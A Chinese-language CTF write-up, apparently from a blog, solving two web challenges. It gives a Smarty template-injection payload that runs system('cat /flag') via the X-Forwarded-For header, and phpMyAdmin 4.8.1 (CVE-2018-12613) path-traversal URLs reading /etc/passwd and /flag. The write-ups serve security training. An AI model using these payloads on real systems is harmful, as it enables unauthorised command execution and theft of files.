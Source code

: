 # [BJDCTF2020]The mystery of ip

![](https://img-blog.csdnimg.cn/20210426112443483.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
直接显示我的ip：抓包看到没有XFF，我就添加一个，结果回显:

![](https://img-blog.csdnimg.cn/20210426112458427.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
测试出来是ssti：

![](https://img-blog.csdnimg.cn/20210426112514591.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
Smarty模板：

![](https://img-blog.csdnimg.cn/20210426112526864.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
使用if标签：

![](https://img-blog.csdnimg.cn/20210426112540957.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
payload:
```
{if system('cat /flag')}{/if}
```

漏洞处：
```
$smarty->display("string:".$ip)      // display函数把标签替换成对象的php变量；显示模板，无过滤
```

---
# [GWCTF 2019]我有一个数据库
开门就是语文考试零级

![](https://img-blog.csdnimg.cn/20210426112650217.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
抓包：

![](https://img-blog.csdnimg.cn/20210426112702159.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

Robots.xtt发现phpinfo()

想着题目是数据库直接phpmyadmin

![](https://img-blog.csdnimg.cn/20210426112717958.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

找到`phpmyadmin 4.8.1` (CVE-2018-12613)
```
phpmyadmin/index.php?target=db_sql.php?/../../../../../../../../etc/passwd
```

![](https://img-blog.csdnimg.cn/20210426112748320.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
直接读取：
```
/phpmyadmin/index.php?target=db_sql.php?/../../../../../../../flag
```

---